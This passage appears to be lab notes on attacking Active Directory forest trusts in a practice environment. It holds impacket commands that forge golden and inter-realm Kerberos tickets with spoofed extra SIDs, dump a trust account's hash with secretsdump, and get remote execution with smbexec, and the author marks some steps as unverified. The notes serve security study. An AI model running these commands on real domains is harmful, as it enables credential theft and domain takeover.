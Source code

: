 > About sid filtering dirkjanm say on his [blog](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/) : _“What this does mean for an attacker is that you can spoof any RID >1000 group if SID history is enabled across a Forest trust!”_

- The group dragonrider is a perfect match (on a real audit exchange groups are usualy a good target)

- Create the golden ticket for a fake user
```
impacket-ticketer -nthash e58cf01ba6cc645da9f7ab1f28fc3934 -domain-sid S-1-5-21-400042831-3601909111-1956920762 -domain essos.local -extra-sid S-1-5-21-400042831-3601909111-1956920762-1132 dragon
```
![screenshot](pics/ticket_dragon.png)

>[!NOTE] 
>Did not work, investigate why

- And use it (secretsdump will work too)
```
export KRB5CCNAME=./dragon.ccache
impacket-smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug
```

>[!NOTE]
>Need to check this part

## Trust ticket with external forest ( essos -> sevenkingdoms)

- Excatly like we done before on domain forest we can do this on external forest but just like with the golden ticket we need the sid history enabled to exploit.
    
- Find the domain sid with lookupsid.py
    
    - essos SID : S-1-5-21-2203133648-1386395927-1390703624
    - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275
```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets<br>SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::....
```

- Create the inter-realm tgt ticket

```
ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
-domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
-domain essos.local \
-extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
-spn krbtgt/sevenkingdoms.local trustdragon
```
